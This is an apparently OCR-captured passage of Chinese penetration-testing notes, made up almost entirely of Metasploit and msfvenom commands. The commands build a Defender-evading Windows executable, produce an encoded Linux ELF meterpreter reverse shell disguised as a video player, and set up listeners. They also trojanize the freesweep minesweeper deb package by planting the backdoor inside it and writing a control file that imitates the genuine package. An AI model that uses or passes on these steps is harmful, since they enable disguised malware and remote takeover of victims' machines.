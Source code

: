     ```shell
    use evasion/windows/windows_defender_exe  # 使用指定模块
    	set FILENAME xue.exe  # 设置文件名称
    	set payload windows/meterpreter/reverse_tcp  # 设置 payload
    	set Lhosts 192.168.1.104 # 设置 hosts
    	run # 执行

    # 监听
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```

#### 2. 制作 Linux 恶意软件

```shell
# 使用一个编码器
msfvenom # 工具
	-a x64 # 指定架构
	--platform linux # 指定平台
	-p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
	-i 10 # 指定编码次数
	-f elf # 指定输出文件格式
	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
	
# 监听
use exploit/multi/handler  # 设置模块
	set payload linux/x/meterpreter/reverse_tcp # 设置 payload
	set lhost 192.168.18.143  # 与生成木马的地址一样
	run  # 执行
		# 查看获取的权限，进行提权
```

### 4. 制作恶意 deb 软件包进行渗透

制作恶意软件包使用 --download-only 方式下载软件包，不进行安装，eg: 安装 frteesweep

```shell
apt --download-only install freesweep  # 只下载不安装，下载的位置在 /var/cache/apt/archives
dpkg -x freesweep_1.0.2-1_amd64.deb free  # 解压 deb 软件包

msfvenom 	-a x64 	--platform linux  -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=4444 -b "\x00"  -i 10  -f elf  -o /root/free/usr/games/freesweep_sources # 生成后门程序

# 创建软件包信息目录
	mkdir free/DEBIAN && cd free/DEBIAN  # 创建目录
	vim /root/free/DEBIAN/control  # 创建信息文件
	# 信息内容：
	Package: freeweep
    Version: 1.0.1-1
    Section: Games and Amusement
    Priority: optionsal
    Architecture: amd64
    Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
    Description: a text-based minesweeper
     Freesweep is an implementation of the popular minesweeper game,where one tries to find all the mines without igniting
     any,based on hints given by the computer. Unlike most implementations of this game,Freesweep workd in any visual text
     display - in Linux console,in an xterm,and in most text-based terminals currently in use.
```